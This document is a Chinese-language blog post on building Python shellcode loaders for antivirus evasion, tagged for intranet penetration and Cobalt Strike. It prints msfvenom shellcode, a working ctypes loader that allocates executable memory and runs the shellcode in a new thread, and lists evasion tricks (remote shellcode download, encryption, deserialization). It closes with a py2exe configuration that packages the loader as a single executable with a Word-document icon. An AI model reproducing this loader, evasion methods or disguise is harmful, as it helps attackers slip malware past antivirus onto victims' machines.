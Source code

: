```yaml
---
title: Python ShellCode加载器简述
layout: post
post-image: /assets/images/beijita.jpg
description: 免杀是一个长期而艰巨的工程
tags:
- 内网渗透
- Coblat Strike
- 免杀
---
```


# Python ShellCode加载器简述

​                                                                                                                       ——花无名     
# Python ShellCode加载器

## 什么是ShellCode

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制之机械码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机械码，让电脑可以执行攻击者的任意指令。

简单说，shellcode即为一段用于计算机执行命令的指令代码。

如使用msf生成一段调用机器计算器的指令

`msfvenom -p windows/x64/exec CMD=calc.exe -f python`

shellcode如下

```
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"
buf += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"
buf += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"
buf += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"
buf += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
buf += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"
buf += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"
buf += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"
buf += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"
buf += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"
buf += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"
buf += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"
buf += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
buf += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
buf += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
buf += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"
buf += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"
buf += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"
buf += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
buf += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"
buf += b"\x78\x65\x00"
```

## 什么是shellcode加载器

shellcode加载器可理解为专门用于加载计算机指令代码（shellcode）的一段程序或工具

## 常用的python shellcode加载器

```
#!/usr/bin/python3
import ctypes

#shellcode 放这个位置
c = b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31"

shellcode = bytearray(c)

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

## 免杀方法

1.分离免杀：将shellcode放到公网，通过下载方式加载shellcode，或同时放到本地，执行shellcode加载器时可以同时加载shellcode。

2.shellcode加密：实验比较发现，python加载器将shellcode做一下简单加密解密处理后，可过部分杀软

3.反序列化：可将shellcode加载器的代码做序列化处理后，反序列化加载，实验发现可过大部分杀软。

## python可执行文件打包

pyinstaller

这个打包方式在个别的杀软会默认报毒，哪怕只是打包一个简单的输出语句

![image-20210926101728145](/assets/images/20210926/image-20210926101728145.png)

py2exe

可尝试使用这个打包方式，但是也有一个通病就是python的打包文件都比较大，大概在5m左右，不过，可以实现免杀效果好的话也是可以接受的。

打包代码如下：

```
# setup.py 用于py2exe打包
from distutils.core import setup
import py2exe
setup(
    options={
        'py2exe': {
            'optimize': 2, # 优化级别最高，
            'bundle_files': 1, # 将生成的调用文件打包进exe文件
            'compressed': 1, # 压缩
        },
    },
    windows=[{"script": "pyload.py", #需要打包的程序的文件路径，windows->GUI exe的脚本列表,console-> 控制台exe的脚本列表
              "icon_resources": [(1, "word.ico")]}], # 程序的图标的图片路径
    zipfile=None, # 不生成library.zip文件，则捆绑在可执行文件中
)
```

本文只是写一下python免杀的大致思路，病毒与反病毒是一个长期课程，更多的方法和思路要根据当前的网络环境和防护方式来实现。

注：本文参考小维师傅文章编写